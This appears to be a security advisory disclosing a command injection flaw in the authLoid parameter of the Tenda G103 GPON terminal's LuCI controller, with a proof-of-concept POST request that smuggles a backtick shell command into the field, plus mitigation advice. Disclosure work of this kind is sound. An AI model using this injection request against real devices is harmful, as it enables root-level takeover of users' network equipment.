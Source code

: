 # Tenda G103 Command Injection Vulnerability in `authLoid` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability is caused by improper sanitization of the `authLoid` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, potentially leading to full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com.cn/material/show/2615](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `authLoid`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, LOID configuration tampering, sensitive data leakage, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function handles the `authLoid` parameter, which is used to configure the LOID (Lightwave Optical Network Identifier) for GPON authentication. A critical security flaw exists: the `authLoid` parameter is passed directly to system commands such as `fw_setenv` and `uci` without sanitization or input validation.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)




Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or logical operators `&&`) in the `authLoid` parameter. These characters are not filtered, allowing the injected payload to be parsed and executed by the system shell when the concatenated commands are run.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive

authLoid=1`touch$IFS/tmp/authLoid.txt`

```

#### Execution Steps:



1.  Send the POST request above with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/authLoid.txt`.

#### Expected Result:

The file `/tmp/authLoid.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)

## Mitigation Recommendations



1.  **Input Validation**: Restrict `authLoid` to a safe character set (e.g., alphanumerics) and enforce length limits consistent with LOID standards.

2.  **Command Escaping**: Use `luci.util.shellquote` to escape the parameter before inserting it into system commands (e.g., `string.format("fw_setenv omci_loid \"%s\"", luci.util.shellquote(authLoid))`).

3.  **Secure Configuration Handling**: Use LuCI’s built-in UCI API for configuration management instead of direct system command calls.

4.  **Least Privilege**: Run processes executing these commands with minimal required privileges to limit exploitation impact.

> （注：文档部分内容可能由 AI 生成）
